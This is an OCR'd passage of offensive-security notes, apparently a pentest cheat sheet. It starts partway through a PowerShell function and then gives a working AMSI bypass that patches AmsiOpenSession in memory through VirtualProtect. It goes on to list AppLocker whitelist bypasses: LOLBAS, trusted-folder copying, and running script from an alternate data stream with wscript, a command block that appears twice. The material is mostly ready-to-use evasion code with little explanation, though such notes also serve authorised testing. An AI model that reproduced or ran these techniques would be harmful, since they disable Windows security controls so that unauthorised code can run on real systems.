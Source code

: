 ```bash
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void]
  )
  $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')
  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

    return $type.CreateType()
}
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

### Applocker whitelist bypass

- LOLBAS
- Copy binary to trusted folders
- dll acceschk c:/windows

```bash
type js.js > "C:\<target_file>.log:js.js"
dir /r "<target_file>.log
wscript  "C:\<target_file>.log:js.js"
```

- Alternate Data Stream

```bash
type js.js > "C:\<target_file>.log:js.js"
dir /r "<target_file>.log
wscript  "C:\<target_file>.log:js.js"
```

- Third part execution

Using Python, Perl, etc.
